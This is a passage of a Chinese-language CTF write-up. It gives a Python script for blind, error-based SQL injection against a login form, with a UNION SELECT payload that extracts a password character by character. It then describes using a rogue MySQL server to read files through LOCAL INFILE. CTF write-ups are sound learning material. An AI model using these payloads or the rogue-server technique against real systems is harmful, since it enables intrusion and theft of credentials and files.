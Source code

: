 ```python
strs = ''

for x in range(27):
    for i in payload:
        username = 'qqx\' union select (2-((select F.2 from (select 1,2 union select * from user)F limit 1,1) like binary "{}%" {}))*1e123;-- A'
        # if(i == '_' or i == '%' ):
        #     tmp = strs + '/' + i
        #     username = username.format(tmp, 'escape"/"')
        # else:
        tmp = strs + i
        username = username.format(tmp, '')


        data = {
            'username': username,
            'password': 'qqx123'
        }
        res = requests.post(url, headers=headers, data=data)


        html_doc=str(res.content,'utf-8') #html_doc=html.decode("utf-8","ignore")

        if '登陆失败' in html_doc:
            print(html_doc)
            strs += i
            time.sleep(5)
            print(strs)

    print(strs)

```

报错注入的原理可参考<http://javaweb.org/?p=1355>

这里比较坑的是，密码中有_，所以第一次可能需要如注释般，然后再保存之前已经跑出来的密码继续跑。跑出来是F1AG@1s-at_/fll1llag_h3r3

然后登录，是个Mysql clinet连接管理，连接之后跑user()，ctf123密码也是ctf123，成功SQL，但是只显示执行成功，不显示内容，所以卡了很久。

之前一直在猜密码的意思，以为在fll1llag_h3r3表，但是事实上是在/fll1llag_h3r3。xiaoxi学长给发了篇安全客的文章，

<https://www.anquanke.com/post/id/106488>

利用MySQL LOCAL INFILE读取客户端文件

我用的这里面的代码<https://github.com/allyshka/Rogue-MySql-Server>

所以在公网上运行

![](https://wulasite.top/mdimage/guosai/sql2.png)

在客户端执行之后看mysql.log

![](https://wulasite.top/mdimage/guosai/sql3.png)
